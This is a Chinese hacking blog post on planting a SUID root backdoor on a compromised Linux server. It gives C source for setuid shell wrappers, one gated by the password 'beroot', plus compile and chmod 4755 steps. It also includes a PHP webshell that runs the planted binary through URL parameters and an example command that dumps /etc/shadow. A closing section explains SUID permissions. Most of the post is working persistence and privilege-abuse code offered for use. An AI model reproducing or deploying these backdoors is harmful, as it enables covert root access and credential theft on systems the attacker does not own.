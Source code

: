 ```yaml
---
layout: post
title: suid后门（suid shell）
date: 2018-06-26 23:30:00
tags: 后门 suid
categories: hack 
author: PythonPig
---
```

* content
{:toc}
suid shell 是可以以shell所有者权限运行的shell。 

#### \#0x00 suid shell生成

suid shell简单代码：  
```c
#include<stdlib.h>
main () {
setuid(0);
system("/bin/bash");
}
```




切换至root下，执行：  
gcc bashwrap.c -o bashwrap  
chmod 4755 bashwrap  （赋予suid权限）  

此时bashwrap就是一个suid shell  

#### \#0x01 suid shell调用（PHP环境）

把suid shell隐藏在目标系统上(假设放在/tmp/目录下)，通过web的方式调用（假设webshell权限较低，希望使用suid shell执行root命令），假如web环境是PHP，在web目录下上传如下PHP文件：  
```php 
<?php
if(isset($_GET['path']) && isset($_GET['cmd'])){
 $path = $_GET['path'];
 $cmd = $_GET['cmd'];
 $descriptorspec = array(
  0 => array("pipe", "r"),
  1 => array("pipe", "w"),
  2 => array("pipe", "w")
 );
 $process = proc_open($path, $descriptorspec, $pipes);
 if (is_resource($process)) {
  fwrite($pipes[0],$cmd);
  fclose($pipes[0]);
  echo stream_get_contents($pipes[1]);
  echo stream_get_contents($pipes[2]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  $return_value = proc_close($process);
 }  
}
>
```  

访问http://x.x.x.x/exploit.php?path=/tmp/bashwrap&cmd=id即可以root的权限执行命令id  

注：  
1、webshell的权限较低，但是已经完成了提权，可以使用上述方式留下root后门；  
2、利用webshell提权时，把exp上传至/tmp/exp，访问http://x.x.x.x/exploit.php?path=/tmp/exp&cmd=id，若提权成功，则会以root权限执行命令id。  

#### \#0x02 suid shell调用（非PHP环境）  

在非PHP环境下使用如下代码生成suid shell
```c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
    char buf[256]={0};
    if(strcmp(argv[1],"beroot") == 0)
    {
        setuid(0);
        int i;
        for(i = 2; i < argc; i ++){
            strcat(buf, argv[i]);
            strcat(buf," ");
        }
        execl("/bin/sh","sh","-c", buf,(char *)0);
        return 0;
    }
    else
    {
            printf("%s\n","Execution Error!");
            return -1;
    }
    return 0;
}
``` 

然后在低权限的web shell命令执行处执行：./bashwrap beroot cat /etc/shadow即可以root权限执行cat /etc/shadow  

#### \#0x03 suid介绍

当s这个标志出现在文件所有者的x权限上时，此时就被称为Set UID，简程SUID。  
例如执行ls -l /bin/su可以看到   

执行ls -l /usr/bin/passwd 可以看到     

在文件所有者的x权限上都出现了s权限，那么这个特殊权限的特殊性的作用是什么呢？  
```
1、SUID权限仅对二进制程序有效。  
2、执行者对于该程序需要具有x的可执行权限。 
3、本权限仅在执行该程序的过程中有效。  
4、执行者将具有该程序拥有者的权限。  
``` 

SUID的关键作用体现在第四句，SUID的目的就是：让本来没有相应权限的用户运行这个程序时，可以访问他没有权限访问的资源。  
#### \#0x04 参考
[深入Linux文件权限 SUID/SGID/SBIT](https://blog.csdn.net/imkelt/article/details/53054309) 
文章中部分源代码在前辈代码的基础上略做修改，由于时间久远，现在已经不知道代码摘自何处，若作者看到，请速联系（联系方式见about标签）


